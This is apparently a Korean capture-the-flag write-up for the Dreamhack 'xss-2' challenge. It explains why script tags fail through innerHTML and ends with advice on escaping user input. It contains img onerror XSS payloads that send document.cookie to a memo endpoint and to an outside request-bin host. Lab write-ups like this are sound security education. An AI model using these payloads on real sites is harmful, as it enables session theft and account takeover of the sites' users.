 `xss-1`에서는 `/flag`를 통해서 `/vuln`에 접근할 때, `param`을 바로 `render_template` 함수를 사용하지 않고 바로 리턴하기 때문에 스크립트 코드가 포함되었는지 확인하는 `check_xss`가 의미가 없었다. 

이번 문제에서 만약, `xss-1`과 같은 방식으로 `param`을 받아와서 `return render_template(param)`을 해줬다면, `check_xss`에서 `false`를 리턴하는 상황이 생길 수 있지만, 여기서도 그 상황은 아니기 때문에 `check_xss`이 의미가 없긴 하다.

이외에 `/flag`를 통해 `read_url`을 호출해서 셀레니움을 통해 서버에서 `/vuln`에 접속하면서 쿠키를 설정하는 코드는 `xss-1`과 동일하다.

# 취약점 분석

`xss-1`과는 다르게 `/vuln`에 존재하는 `innerHTML`을 통해 `<script>` 태그를 실행할 수 없게 되었다. 

왜냐하면, `<script>` 태그가 `render_template` 함수를 통해 HTML 엔티티 코드로 변환되지 않아서 그대로 해석할 수 있음에도 불구하고, `HTML5` 버전 이상에서는 `innerHTML`에서 `<script>` 코드를 실행할 수 없기 때문이다.

참고로, `innerHTML`에 저장된 값을 `HTML 태그`로 해석하여 랜더링 할 수 있다. 당연히 엔티티 코드는 `innerHTML`에 전달되도 브라우저에서 출력될 때는 태그로 해석되어 렌더링 되지 않고 태그 문자열 자체로 출력된다.

```
{% block content %}
    <div id='vuln'></div>
    <script>var x=new URLSearchParams(location.search); document.getElementById('vuln').innerHTML = x.get('param');</script>
{% endblock %}
```

이 부분을 보면, `/vuln`를 접속했을 때의 `URL`에서의 파라미터들을 `x`에 저장한 후, `param` 파라미터에 존재하는 값을 찾아서 `innerHTML`에 저장해주어서 `param`에 `HTML 태그`가 전달된 경우 이를 해석하여 랜더링할 수 있게 된다.

근데, 코드에서 `HTML 엔티티 코드`로 변환하는 부분은 없다고 해도 `<script>` 코드를 실행할 수 없기 때문에 다른 방법을 찾아야 한다.\
(참고로, `read_url`에서 `urllib.parse.quote(param)`은 엔티티 코드로 변환하는게 아니라 `URL 인코딩`을 하는 것이기 때문에 `innerHTML`에 들어갈 때는 태그로 해석되어 렌더링을 할 수 있다.)

### `/memo` 엔드 포인트 사용

`<script>` 대신 사용할 수 있는 방법이 `<img src = "xss-2", onerror = "location.href = '/memo?memo =' + document.cookie;">` 를 `param`으로 전달해 주는 것이다.

`<script>`를 수행할 수 없다고 해도 `HTML 태그`인 `<img>`는 해석하여 랜더링할 수 있기 때문에, 해당 태그 안에 존재하는 `onerror` 속성도 해석하여 실행할 수 있다.

`src = "xss-2"`는 없는 주소이므로 `error` 이벤트가 발생하는데, 이 때 기존에 사용했던 `location.href = "/memo?memo =" + document.cookie;` 코드를 수행하도록 하면 된다.

참고로, `onerror` 속성에서 실행할 이벤트 핸들러 코드는 문자열을 입력해야 하기 때문에, `""`로 값이 감싸져야 하고, 내부에서 사용되야 하는 `"`는 `'`로 대체하면 된다.

## 외부 웹서버 이용

드림핵 툴즈를 이용해서 `<img src = "xss-2", onerror = "location.href = 'https://RANDOM.request.dreamhack.games/?vuln_param=' + document.cookie;">`를 `/flag`의 `param`에 전달해주면 된다.

<img width="1372" alt="image" src="https://github.com/user-attachments/assets/a2dd62c8-e825-4a5f-a3d8-c1a8fe253869">

# 정리

`xss-2` 문제를 통해 `innerHTML` 의 특성과, 파라미터 조작을 통해 웹 페이지 내용을 조작하고 `XSS` 공격을 수행할 수 있는 방법에 대해 알아볼 수 있었다.

`xss-2` 문제와 같이 이용자의 입력을 바탕으로 `innerHTML`을 설정할 경우에는 `XSS` 공격에 취약할 수 있기 때문에, 사용자의 입력을 받기 전에 서버 측에서 입력 값을 검증하거나 이스케이프 처리를 하는 방식 등을 사용해야 취약점을 방어할 수 있다.
